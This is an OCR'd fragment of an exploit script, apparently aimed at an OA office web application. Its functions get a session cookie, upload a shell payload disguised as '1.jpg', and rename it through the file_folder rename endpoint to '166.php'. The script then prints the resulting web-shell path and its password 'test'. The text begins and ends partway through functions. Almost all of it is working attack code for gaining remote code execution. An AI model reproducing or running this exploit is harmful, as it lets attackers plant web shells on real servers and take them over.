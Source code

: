 ```php
}
function GetPICID(url,Cookie){
    res = HttpGet(url."/general/picture/tree.php?CUR_DIR=&PIC_ID=&_=1615284234507",Cookie);
    return GettextMiddle(res[0],"&PIC_ID=",yinhao);
}
function GetImg(url,Root,Cookie){
    res = HttpGet(url."/general/picture/picture_view.php?SUB_DIR=2103&PIC_ID=".GetPICID(url,Cookie)."&CUR_DIR=".URLEncode(StrReplace(Root,"\\","/"))."%2Fwebroot%2Ffile_folder%2F2103",Cookie);
    list = StrRe(res[0],shellpathre);
    num = GetArrayNum(list);
    num = num/2;
    i = 0;
    while(i<num){
        if(StrFindStr(list[ToInt(i*2+1)],"1.jpg",0) != "-1"){
            return list[ToInt(i*2+1)];
        }
        i = i+1;
    }
    return "";
}
function ChangeImgName(url,CONTENT,ATTACHMENT,Cookie){
    return HttpPost(url."/general/file_folder/rename_submit.php","NEW_FILE_NAME=166&CONTENT_ID=".CONTENT."&FILE_SORT=2&ATTACHMENT_ID=".URLEncode(ATTACHMENT)."&ATTACHMENT_NAME_POSTFIX=php.&ATTACHMENT_NAME=1.jpg&FIRST_ATTACHMENT_NAME=1&FILE_NAME_OLD=1.jpg",Cookie);
}
function GetCONTENTID(url,Cookie){
    res = HttpGet(url."/general/file_folder/folder.php?FILE_SORT=2&SORT_ID=0",Cookie);
    list = StrRe(res[0],contentidre);
    if(GetArrayNum(list) >= 2){
        return list[1];
    }
    return "";
}
function GetATTACHMENTID(url,CONTENTID,Cookie){
    res = HttpGet(url."/general/file_folder/edit.php?FILE_SORT=2&SORT_ID=0&CONTENT_ID=".CONTENTID."&start=0",Cookie.StrRN()."Referer: ".url."/general/file_folder/folder.php?FILE_SORT=2&SORT_ID=0");
    list = StrRe(res[0],attachmentidre);
    if(GetArrayNum(list) >= 2){
        return list[1];
    }
    return "";
}
function GetShell(url){
    PHPSESSID = GetCookie(url);
    if(PHPSESSID == ""){
        return "";
    }
    Cookie = "Cookie: PHPSESSID=".PHPSESSID.";".StrRN()."User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0";
    if(JudgeOK(url,Cookie)=="1"){
        WebRoot = GetWebRoot(url,Cookie);
        AddPath(url,WebRoot,Cookie);
        AddImgPath(url,WebRoot,Cookie);
        ShellPost = ReadFile("s cript\综合漏洞\OAShell.txt");
        PushImg(url,ShellPost,Cookie);
        path = GetImg(url,WebRoot,Cookie);
        CONTENTID = GetCONTENTID(url,Cookie);
        ATTACHMENTID=GetATTACHMENTID(url,CONTENTID,Cookie);
        ChangeImgName(url,CONTENTID,ATTACHMENTID,Cookie);
        realshellpath = url."/file_folder/2103/".StrReplace(path,"1.jpg","166.php");
        print("Shell路径:",realshellpath,"密码:test");
    }else{
        return "";
```